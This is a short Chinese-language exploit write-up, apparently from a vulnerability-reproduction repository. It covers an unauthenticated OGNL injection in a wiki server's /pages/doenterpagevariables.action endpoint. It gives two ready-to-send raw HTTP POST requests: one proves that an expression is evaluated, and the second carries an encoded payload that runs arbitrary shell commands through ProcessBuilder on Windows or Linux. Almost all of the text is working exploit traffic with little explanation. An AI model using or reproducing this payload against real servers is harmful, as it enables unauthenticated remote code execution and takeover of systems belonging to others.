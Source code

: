 **漏洞利用**

> 有多个接口可以触发这个OGNL表达式注入漏洞。

1. `/pages/doenterpagevariables.action` 数据接口

这个接口不需要登录即可利用，发送如下数据包，即可看到`233*233`已被执行

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 47

queryString=%5cu0027%2b%7b233*233%7d%2b%5cu0027
```

<p align="center"><img src="img/2/19.png" width="800px"></p>


2. 执行任意命令

```
POST /pages/doenterpagevariables.action HTTP/1.1
Host: 192.168.91.139:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 1060

queryString=%5cu0027%2b%7bClass.forName%28%5cu0027javax.script.ScriptEngineManager%5cu0027%29.newInstance%28%29.getEngineByName%28%5cu0027JavaScript%5cu0027%29.%5cu0065val%28%5cu0027var+isWin+%3d+java.lang.System.getProperty%28%5cu0022os.name%5cu0022%29.toLowerCase%28%29.contains%28%5cu0022win%5cu0022%29%3b+var+cmd+%3d+new+java.lang.String%28%5cu0022id%5cu0022%29%3bvar+p+%3d+new+java.lang.ProcessBuilder%28%29%3b+if%28isWin%29%7bp.command%28%5cu0022cmd.exe%5cu0022%2c+%5cu0022%2fc%5cu0022%2c+cmd%29%3b+%7d+else%7bp.command%28%5cu0022bash%5cu0022%2c+%5cu0022-c%5cu0022%2c+cmd%29%3b+%7dp.redirectErrorStream%28true%29%3b+var+process%3d+p.start%28%29%3b+var+inputStreamReader+%3d+new+java.io.InputStreamReader%28process.getInputStream%28%29%29%3b+var+bufferedReader+%3d+new+java.io.BufferedReader%28inputStreamReader%29%3b+var+line+%3d+%5cu0022%5cu0022%3b+var+output+%3d+%5cu0022%5cu0022%3b+while%28%28line+%3d+bufferedReader.readLine%28%29%29+%21%3d+null%29%7boutput+%3d+output+%2b+line+%2b+java.lang.Character.toString%2810%29%3b+%7d%5cu0027%29%7d%2b%5cu0027
```